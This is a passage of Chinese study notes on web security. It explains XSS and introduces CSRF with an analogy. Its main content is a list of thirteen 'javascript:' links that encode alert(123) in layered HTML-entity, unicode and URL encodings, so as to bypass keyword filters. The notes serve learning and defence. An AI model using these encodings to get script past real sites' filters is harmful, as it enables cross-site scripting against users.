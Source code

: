   但在本地因为`<script>`里面的代码而写进了网页文档里面, 
  然后就会被有心人塞一些东西进去. 比如说除了这样的弹窗, 
  还可能会塞一些发送用户信息到攻击者的服务器上的代码之类的. 

### XSS利用编码的攻击
对于这样的XSS攻击, 常用的一个防御手段就是通过屏蔽某些特殊的单词如`script`之类的东西, 
来防止被攻击. 

但是利用url, js, html的编码的顺序不同和层次的嵌套, 可以构成不同的东西, 
有助于绕过检查关键词: 

```html
<a href="javascript:alert(123)">test please 1</a>
<br>
<a href="javascript:alert(&#49;&#50;&#51;)">test please 2</a>
<br>
<a href="javascript:\u0061\u006C\u0065\u0072\u0074(&#49;&#50;&#51;)">test please 3</a>
<br>

<a href="javascript:alert%28123%29">test please 4</a>
<br>
<a href="javascript:\u0061\u006C\u0065\u0072\u0074%28123%29">test please 5</a>
<br>
<a href="javascript:\u0061\u006C\u0065\u0072\u0074%28&#49;&#50;&#51;%29">test please 6</a>
<br>
<a href="javascript:%5Cu0061%5Cu006C%5Cu0065%5Cu0072%5Cu0074%28&#49;&#50;&#51;%29">test please 7</a>
<br>
<a href="javascript:%5Cu0061%5Cu006C%5Cu0065%5Cu0072%5Cu0074%28%26%2349%3B%26%2350%3B%26%2351%3B%29">[不会弹窗]test please 8</a>
<br>

<a href="javascript:alert(\u0031\u0032\u0033)">[不会弹窗]test please 9</a>
<br>
<a href="javascript:alert('\u0031\u0032\u0033')">test please 10</a>
<br>
<a href="javascript:\u0061\u006C\u0065\u0072\u0074('\u0031\u0032\u0033')">test please 11</a>
<br>
<a href="javascript:alert%28%27%5Cu0031%5Cu0032%5Cu0033%27%29">test please 12</a>
<br>
<a href="javascript:%5Cu0061%5Cu006C%5Cu0065%5Cu0072%5Cu0074%28%27%5Cu0031%5Cu0032%5Cu0033%27%29">test please 13</a>
```

## CSRF - Cross Site Request Forgery
跨站点请求伪造, 感觉和XSS很像, 都是在用户的游览器(client)部分做手脚, 
用用户的游览器去执行请求, 因为在用户的游览器上可能还留有`cookie`等信息, 
会让其有一定的权限, 所以就会中招. 

(一个不知道合不合理的比喻: 用户的手里有一把权限很高的剑, 
然后我们骗用户去做一些无关的事情(访问一个有问题的网站), 
但是实际上是在让用户挥剑砍自己. 相当于是利用了网站对用户游览器的信任, 
让游览器去执行不是用户本意的操作. )
